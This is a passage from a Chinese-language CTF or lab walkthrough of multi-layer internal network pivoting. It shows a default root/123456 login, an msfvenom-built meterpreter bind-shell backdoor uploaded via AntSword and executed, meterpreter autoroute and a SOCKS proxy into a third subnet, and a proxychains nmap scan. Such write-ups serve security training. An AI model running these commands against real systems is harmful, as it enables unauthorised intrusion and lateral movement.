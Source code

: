 [![](https://p2.ssl.qhimg.com/t012f353629748251e2.png)](https://p2.ssl.qhimg.com/t012f353629748251e2.png)

在sockscap64中打开ssh客户端：

[![](https://p4.ssl.qhimg.com/t01630b0232221cf80c.png)](https://p4.ssl.qhimg.com/t01630b0232221cf80c.png)

也可以利用root/123456登录，获得flag

[![](https://p5.ssl.qhimg.com/t01ab7abe5abf8cc5ed.png)](https://p5.ssl.qhimg.com/t01ab7abe5abf8cc5ed.png)

同样，为了打进第三层，我们需要在第二层靶机上上传msf后门，

制作后门：

`msfvenom  -p linux/x86/meterpreter/bind_tcp  LPORT=4321  -f elf &gt; shell1.elf`

利用蚁剑上传，并在第二层靶机运行：

`Chmod 777 ./shell1.elf`<br>`./shell1.elf`

在msf上配置payload：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01db7a5486b85c4d17.png)

获得第二层meterpreter：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016451669d012dd905.png)

发现第三层网段192.168.226.0/24

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fa64ad96900b9e08.png)

然后利用这个meterpreter添加到第三层的网络路由：

`run autoroute -s 192.168.226.0/24`

[![](https://p2.ssl.qhimg.com/t014e3c7069b989b3d3.png)](https://p2.ssl.qhimg.com/t014e3c7069b989b3d3.png)

在启用一个socks代理给第三层网络，端口开9998

[![](https://p5.ssl.qhimg.com/t01635a2ba9d564032e.png)](https://p5.ssl.qhimg.com/t01635a2ba9d564032e.png)

然后在proxychains的配置文件中加上9998：

[![](https://p3.ssl.qhimg.com/t01e91c514ba18f8687.png)](https://p3.ssl.qhimg.com/t01e91c514ba18f8687.png)

扫描一下第三层主机端口：

`proxychains nmap -Pn -sT 192.168.226.129 -p1-1000`
